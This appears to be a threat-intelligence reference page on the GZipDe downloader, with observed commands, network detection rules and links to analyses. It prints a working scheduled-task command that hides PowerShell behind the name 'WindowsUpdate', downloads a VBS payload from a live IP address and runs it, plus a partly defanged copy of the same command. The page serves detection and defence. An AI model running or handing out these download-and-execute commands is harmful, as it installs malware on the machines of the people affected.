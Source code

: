 ## GZipDe


#### Commands
---

* Schtasks.exe

1.

```
/Create /sc MINUTE /MO 1 /TN WindowsUpdate /TR "Powershell -W Hidden (New-Object System.Net.WebClient).DownloadFile(\\\"http://118.193.251.137/dropbox/?p=BT67HU78HZ\\\",\\\"$env:public\svchost325.vbs\\\");(New-Object -com Shell.Application).ShellExecute(\\\"$env:public\svchost325.vbs\\\");" /F
```

* Powershell.exe

1.

```
-W Hidden (New-Object System.Net.WebClient).DownloadFile(\\\'http[:]//118.193.251[.]137/dropbox/?p=BT67HU78HZ\\\',\\\'$env:public\svchost325.vbs\\\');(New-Object -com Shell.Application).ShellExecute(\\\'$env:public\svchost325.vbs\\\');' /F
```

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://www.alienvault.com/blogs/labs-research/gzipde-an-encrypted-downloader-serving-metasploit

Sandbox reports:
* https://app.any.run/tasks/e918c80e-ce60-42d6-b365-8fd3256420f0

Notes:

@Alienvault

#### Network Detection

Multi-purpose:

* AV ATTACK_RESPONSE Metasploit Reverse Shell Verification (Echo)

* ET ATTACK_RESPONSE Metasploit/Meterpreter - Sending metsrv.dll to Compromised Host

* ET ATTACK_RESPONSE Metasploit Meterpreter Reverse HTTPS certificate

Dedicated:

* alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"AV TROJAN GZipDe MacroMalware CnC Checkin"; flow:established,to_server; content:"/dropbox/?p="; http_uri; depth:12; content:!"User-Agent|3a| "; http_header; content:!"Referer"; http_header; pcre:"^/\/dropbox\/\?p=[a-zA-Z0-9]*$/U"; reference:md5,951d9f3320da660593930d3425a9271b; classtype:trojan-activity; sid:xxx; rev:1;)

* alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"AV TROJAN GZipDe MacroMalware Payload Request"; flow:established,to_server; content:"/dropbox/file"; depth:13; http_uri; content:".exe"; http_uri; distance:0; isdataat:!1,relative; content:!"User-Agent|3a| "; http_header; content:!"Referer"; http_header; reference:md5,951d9f3320da660593930d3425a9271b; classtype:trojan-activity; sid:xxx; rev:1;)

 
